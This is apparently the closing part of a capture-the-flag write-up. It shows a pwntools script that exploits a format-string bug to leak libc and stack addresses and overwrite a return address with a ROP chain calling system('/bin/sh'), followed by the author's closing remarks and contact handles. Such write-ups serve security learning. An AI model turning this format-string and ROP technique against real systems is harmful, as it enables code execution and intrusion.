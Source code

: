```py

libc.address = int(fsb_leaks[1], 16) - 0x114992

stack = int(fsb_leaks[-2], 16)
ret_address = stack - 0x340 

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] 
BINSH = next(libc.search(b"/bin/sh"))
RET = (rop.find_gadget(['ret']))[0] 

writes = {ret_address: POP_RDI+libc.address , ret_address+0x8: BINSH, ret_address+0x10: libc.address+RET, ret_address+0x18: libc.sym.system}

payload = fmtstr_payload(7, writes)
write(payload)

p.interactive()
```




## Appendix

The challegnes were really fun, I just wished that they were a bit harder. I am glad I was able to solo them for my team!

If you have any question regarding the above solutions, you can DM me via my [Twitter](https://x.com/itaybel) or my `Discord` (itaybel).
